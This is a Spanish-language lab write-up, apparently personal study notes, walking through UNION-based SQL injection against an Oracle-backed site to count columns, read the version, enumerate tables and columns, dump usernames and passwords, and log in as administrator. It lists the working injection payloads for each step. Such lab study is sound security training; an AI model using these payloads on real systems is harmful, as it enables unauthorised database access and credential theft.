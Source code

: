 Objetivo: Conseguir información de la BBDD y acceder como administrator.
Consulta Inicial: `SELECT * FROM atricles WHERE category=''`

#### Averiguar la cantidad de columnas que tiene la tabla en uso:
****
Si realizamos un ordenamiento respecto a la segunda columna con `' ORDER BY 2-- -`
o `' UNION SELECT "a","b" FROM dual-- -` en el caso del gestor Oracle, debemos indicarle una tabla, por defecto existe la tabla `dual`, al enviar la consulta vemos que la web no lanza ningun error. Por lo tanto entendemos que la tabla tiene 2 columnas.

Consulta para averiguar la cantidad de columnas de la tabla en uso: `' ORDER BY 2-- -`

Consulta para averiguar la cantidad de columnas de la tabla en uso (UNION): `' UNION SELECT "a","b" FROM dual-- -`

![[Pasted image 20250719140324.png]]

#### Averiguar a qué Base de Datos nos estamos enfrentando
****
Cada gestor de bases de datos tiene su forma de consultar la versión de la misma, de colocar comentarios, etc. Por lo tanto tendremos en cuenta lo siguiente al querer averiguar la versión.

Consulta versión Oracle: `' UNION SELECT banner,NULL FROM v$version-- -`

Consulta versión Oracle (alternativa): `' UNION SELECT version,NULL FROM v$instance-- -`

![[Pasted image 20250719141006.png]]

#### Conocer la tabla que almacena los usuarios y las contraseñas.
****
En el caso de Oracle, no contamos con una BBDD `information_schema`, por lo tanto haremos uso de "[vistas](https://www.ibm.com/docs/en/ias?topic=oracle-data-dictionary-compatible-views)" que nos proporciona Oracle.

Hay tres versiones diferentes de cada vista del diccionario de datos, y cada versión se identifica por el prefijo del nombre de la vista.

Las vistas devuelven información sobre los objetos a los que tiene acceso el usuario actual.
- `ALL_*` vistas devuelvan información sobre los objetos a los que tiene acceso el usuario actual.
- `DBA_*` vistas devuelven información sobre todos los objetos de la base de datos, independientemente de quién posea los posee.
- `USER_*` vistas devuelvan información sobre los objetos que son propiedad del usuario actual de la base de datos.

![[Pasted image 20250719143551.png]]


![[Pasted image 20250719143142.png]]

##### Listar todas las tablas de la BBDD
****
Consulta para listar las tablas Oracle: `' UNION SELECT table_name,NULL FROM all_tables-- -`

Esta consulta, toma el nombre (`table_name`) de todas las tablas (`all_tables`) de la BBDD.

![[Pasted image 20250719143937.png]]
![[Pasted image 20250719144014.png]]
Entre tantas tablas, vemos una llamada `USERS_NFLGDQ` donde pueden estar almacenadas las credenciales de autenticación de los usuarios.

##### Listar las columnas de la tabla USERS
****

![[Pasted image 20250719144540.png]]

Consulta para listar las tablas Oracle: `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_NFLGDQ'-- -`

![[Pasted image 20250719144451.png]]

##### Listar las credenciales de la BBDD de usuarios
****
Consulta para conocer la contraseña de un usuario Oracle: `' UNION SELECT USERNAME_NSAIHI,PASSWORD_NOSBHM FROM USERS_NFLGDQ-- -`

![[Pasted image 20250719145447.png]]

#### Loguearnos con las credenciales del usuario administrator.
****

![[Pasted image 20250719145617.png]]
![[Pasted image 20250719145655.png]]